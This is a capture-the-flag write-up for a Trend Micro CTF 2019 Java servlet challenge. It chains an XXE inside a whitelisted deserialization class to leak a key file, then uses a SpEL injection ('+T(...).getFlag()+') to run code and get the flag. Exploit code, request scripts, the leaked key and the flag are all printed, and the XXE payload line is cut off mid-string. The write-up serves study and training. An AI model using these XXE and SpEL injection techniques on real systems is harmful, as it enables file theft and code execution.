 It consists of jail image.
Actually, this challenge is similar to last year challenge.
Previous challenge is vulnerable to deserialization using commons-collection5.
But, this chall allows only `com.trendmicro.Person` to serialize as whitelist.
```java
public class CustomOIS extends ObjectInputStream
{
    private static final String[] whitelist;
    
    static {
        whitelist = new String[] { "com.trendmicro.Person" };
    }
    
    public CustomOIS(final ServletInputStream is) throws IOException {
        super((InputStream)is);
    }
    
    public Class<?> resolveClass(final ObjectStreamClass des) throws IOException, ClassNotFoundException {
        if (!Arrays.asList(CustomOIS.whitelist).contains(des.getName())) {
            throw new ClassNotFoundException("Cannot deserialize " + des.getName());
        }
        return super.resolveClass(des);
    }
}
```
First show the `server.class`.
Here is `Server.class`:
```
@WebServlet({ "/jail" })
public class Server extends HttpServlet
{
    private static final long serialVersionUID = 1L;
    
    protected void doPost(final HttpServletRequest request, final HttpServletResponse response) throws ServletException, IOException {
        try {
            final ServletInputStream is = request.getInputStream();
            final CustomOIS ois = new CustomOIS(is);
            final Person person = (Person)ois.readObject();
            ois.close();
            response.getWriter().append("Sorry " + person.name + ". I cannot let you have the Flag!.");
        }
        catch (Exception e) {
            response.setStatus(500);
            e.printStackTrace(response.getWriter());
        }
    }
}
```
`/jail` is deserialize to request data with `(Person)ois.readObject()`.

Here is `Person.class`:
```
public class Person implements Serializable
{
    public String name;
    private static final long serialVersionUID = -559038737L;
    
    public Person(final String name) {
        this.name = name;
    }
    
    private void readObject(final ObjectInputStream aInputStream) throws ClassNotFoundException, IOException, ParserConfigurationException, SAXException {
        final int paramInt = aInputStream.readInt();
        final byte[] arrayOfByte = new byte[paramInt];
        aInputStream.read(arrayOfByte);
        final ByteArrayInputStream localByteArrayInputStream = new ByteArrayInputStream(arrayOfByte);
        final DocumentBuilderFactory localDocumentBuilderFactory = DocumentBuilderFactory.newInstance();
        localDocumentBuilderFactory.setNamespaceAware(true);
        final DocumentBuilder localDocumentBuilder = localDocumentBuilderFactory.newDocumentBuilder();
        final Document localDocument = localDocumentBuilder.parse(localByteArrayInputStream);
        final NodeList nodeList = localDocument.getElementsByTagName("tag");
        final Node node = nodeList.item(0);
        this.name = node.getTextContent();
    }
}
```
`readObject()` parse to string with `ObjectInputStream`.
Basically `DocumentBuilder` is vulnerable to XXE.
So, we can read arbitrary file.

Next, here is another endpoint named `Office`:
```java
@WebServlet({ "/Office" })
public class Office extends HttpServlet
{
    private static final long serialVersionUID = 1L;
    
    protected void doGet(final HttpServletRequest request, final HttpServletResponse response) throws ServletException, IOException {
        final String nametag = request.getParameter("nametag");
        final String keyParam = request.getParameter("key");
        final String keyFileLocation = "/TMCTF2019/key";
        final String key = readFile(keyFileLocation, StandardCharsets.UTF_8);
        if (key.contentEquals(keyParam)) {
            final ExpressionParser parser = (ExpressionParser)new SpelExpressionParser();
            final String expString = "'" + nametag + "' == 'Marshal'";
            final Expression exp = parser.parseExpression(expString);
            final Boolean isMarshal = (Boolean)exp.getValue();
            if (isMarshal) {
                response.getWriter().append("Welcome Marsal");
            }
            else {
                response.getWriter().append("I am sorry but you cannot see the Marshal");
            }
        }
        else {
            response.getWriter().append("Did you forget your keys Marshal?");
        }
    }
    
    protected void doPost(final HttpServletRequest request, final HttpServletResponse response) throws ServletException, IOException {
        this.doGet(request, response);
    }
    
    static String readFile(final String path, final Charset encoding) throws IOException {
        final byte[] encoded = Files.readAllBytes(Paths.get(path, new String[0]));
        return new String(encoded, encoding);
    }
}
```
Wow, it used `SpEL parse`.
Thanks to `SpEL`, we can triggered SpEL Injection.
Before SpEL Injection, must know `key` located '/TMCTF2019/key'.

Finally `jail/Flag.class`:
```java
package com.trendmicro.jail;


import java.io.Reader;
import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.io.Serializable;


public class Flag implements Serializable
{
    static final long serialVersionUID = 6119813099625710381L;
    
    public static void getFlag() throws Exception {
        final ProcessBuilder processBuilder = new ProcessBuilder(new String[0]);
        
        final Process process = processBuilder.start();
        final BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
        final String flag = reader.readLine();
        throw new Exception(flag);
    }
}
```
`getFlag()` show flag to me as Exception.

Scenario :
1. Leak `/TMCTF2019/key` using XXE as deserialization at `/jail`.
2. Get flag to execute `getFlag()` using SpEL Injection at `/Office`.

1. Leak Kkey
exp.java:
```java
package com.trendmicro;


import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;


public class exp {
    public static void main(String args[]) throws Exception {
        String path = "exp1.ser";
        FileOutputStream fout = new FileOutputStream(path);
        ObjectOutputStream oos = new ObjectOutputStream(fout);
        Person a = new Person("<?xml version=\"1.0\" encoding=\"UTF-8\"?><!DOCTYPE xxe [<!ENTITY xxe SYSTEM \"
        oos.writeObject(a);
        oos.close();
        FileInputStream fis = new FileInputStream(path);
        CustomOIS ois = new CustomOIS(fis);
        Person person = (Person)ois.readObject();
        System.out.println(person.name);
        ois.close();
    }
}
add `writeObject` Person.java:
public class Person implements Serializable
{
    public String name;
    private static final long serialVersionUID = -559038737L;
    
    public Person(final String name) {
        this.name = name;
    }
    
    private void readObject(final ObjectInputStream aInputStream) throws ClassNotFoundException, IOException, ParserConfigurationException, SAXException {
        ...
    }
    private void writeObject(final ObjectOutputStream aOutputStream) throws ClassNotFoundException, IOException, ParserConfigurationException, SAXException {
        aOutputStream.writeInt(name.length());
        aOutputStream.writeBytes(name);
    }
}
```
Leak `key` using below python code:
```python
import requests

url = 'http://flagmarshal.xyz/'
xml = open('exp/exp1.ser','rb').read()

headers = {'Content-Type': 'application/octet-stream'}
r = requests.post(url+'jail',data=xml,headers=headers)
print r.text
```
key: Fo0lMe0nce5hameOnUFoo1MeUCantGetF0oledAgain

2. Get flag
Try to SpEL Injection.
Caution: this chall denied another class without `com.trendmicro.jail.Flag`.
So, we just execute `getFlag` in `flag.class`.
```python
import requests


url = 'http://flagmarshal.xyz/'
data = {
    "key":"Fo0lMe0nce5hameOnUFoo1MeUCantGetF0oledAgain",
    "nametag":"'+T(com.trendmicro.jail.Flag).getFlag()+'"
}
r = requests.post(url+'Office',data=data)
print r.content
```

**FLAG:** TMCTF{F0OlLM3TwIcE1Th@Tz!N1C3}
